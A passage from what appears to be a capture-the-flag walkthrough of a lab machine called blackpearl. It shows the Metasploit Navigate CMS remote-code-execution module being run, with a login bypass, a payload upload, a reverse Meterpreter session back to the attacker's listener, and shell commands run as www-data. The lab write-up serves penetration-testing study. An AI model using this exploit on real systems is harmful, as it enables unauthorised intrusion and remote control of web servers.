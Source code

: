 ~~~
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

~~~
Everything seems to be filled in correctly, now I can start the exploit with the command **run**.
~~~
msf6 exploit(multi/http/navigate_cms_rce) > run

[*] Started reverse TCP handler on 192.168.138.4:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 192.168.138.7
[*] Meterpreter session 1 opened (192.168.138.4:4444 -> 192.168.138.7:57390) at 2022-08-19 12:12:13 +0200

meterpreter > sysinfo
Computer    : blackpearl
OS          : Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
Meterpreter : php/linux
meterpreter > 
~~~
The exploit worked and I can run the **sysinfo** command and get the system information. Time to pop a shell, where I immediately see who I am, what membership I have in groups, what working directory I have and what files are present.
~~~
meterpreter > shell
Process 1021 created.
Channel 1 created.
whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/blackpearl.tcm/navigate
ls
LICENSE.txt
README
cache
cfg
crossdomain.xml
css
favicon.ico
img
index.php
js
lib
login.php
navigate.php
navigate_download.php
navigate_info.php
navigate_upload.php
plugins
private
themes
updates
web
~~~